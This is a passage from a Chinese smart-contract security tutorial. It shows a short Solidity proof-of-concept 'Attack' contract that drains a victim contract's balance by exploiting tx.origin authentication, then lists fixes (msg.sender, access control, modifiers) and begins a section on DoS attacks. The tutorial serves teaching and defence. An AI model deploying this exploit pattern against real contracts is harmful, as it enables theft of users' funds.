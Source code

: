 
#### POC合约

```cpp
contract Attack {
    address payable public hacker;
    Victim victim;

    constructor(Victim _victim) {
        victim = Victim(_victim);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导Victim合约的owner调用，于是Victim合约内的余额就全部转移到黑客地址中
        victim.transfer(hacker, address(victim).balance);
    }
}
```

### 漏洞修复方案

修复tx.origin漏洞的方案可以包括以下几个方面：

#### 使用msg.sender替代tx.origin

msg.sender也表示调用者的地址，但只会由当前调用发出的外部地址进行设置，不能被修改，因此可以更安全地替代tx.origin。

#### 使用access control和权限控制

访问控制是一种设计模式，旨在限制合约代码的访问权限，并确保只有授权的用户能够调用关键合约功能。合约应使用合适的访问控制框架来管理对特定功能的访问，并采取适当的身份验证措施。

#### 使用modifier

Modifier也是一种Solidity中的关键字，它类似于函数，但它可以在函数执行前和执行后执行其他代码，可以用于权限控制和确保智能合约的完整性。

#### 严格验证用户输入

对于任何数据输入，都应进行严格验证，以确保它符合预期。例如，对于地址类型的输入，应检查输入是否有效，并确保它实际上属于用户的账户。

## 拒绝服务攻击（DoS）

### 什么是区块链中的拒绝服务攻击

针对智能合约的DOS（Denial of Service）攻击，指攻击者故意利用智能合约存在的漏洞和缺陷，通过发送恶意交易来耗尽智能合约的资源，导致智能合约在一段时间内或永久性的无法正常进行交易或提供其他服务。通过拒绝服务攻击，可以使合约中的ether永远无法提取出来。

### 漏洞代码示例

#### 通过(Unexpected) Revert 发动DoS

如果智能合约的状态改变依赖于外部函数执行的结果，又未对执行一直失败的情况做出防护，那么该智能合约就可能遭受DOS攻击。
